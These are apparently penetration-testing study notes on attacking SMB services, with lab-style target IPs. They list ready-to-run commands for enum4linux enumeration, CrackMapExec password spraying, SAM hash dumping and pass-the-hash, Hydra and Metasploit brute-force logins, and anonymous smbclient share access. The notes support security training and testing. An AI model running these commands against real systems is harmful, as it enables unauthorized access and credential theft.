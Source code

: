 #### Commands

- `enum4linux -a 10.10.10.100` output all sorts of info
- `enum4linux 10.10.11.45 -A -C`

### Crackmapexec

- [Github repo](https://github.com/Porchetta-Industries/CrackMapExec)
- `crackmapexec smb 10.129.14.128 --shares -u '' -p ''`

#### Misc commands

```bash
# Password spray
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
# Enum logged on users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
# Extract hashes from sam database
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
# Pass the hash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## Password attack

### Hydra

- `hydra -L user.list -P password.list smb://10.129.42.197`

### Pass attack with Metasploit

```bash
use auxiliary/scanner/smb/smb_login
options
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
run
```

## What to try

- `smbclient --no-pass \\\\10.10.10.100\\SHARE` connect to a share anonymously
- You might find interesting files this way
- Check out the win version to see if it is vulnerable to anything (eternal blue for example)
- We can also try this command `smbclient //10.10.10.134/SHARE`
- `!<cmd>` run local system command even if connected to smb (exanple: `!ls`)
- `get` Download a file from smb
- `smbstatus` check connections on smb server

## Resources

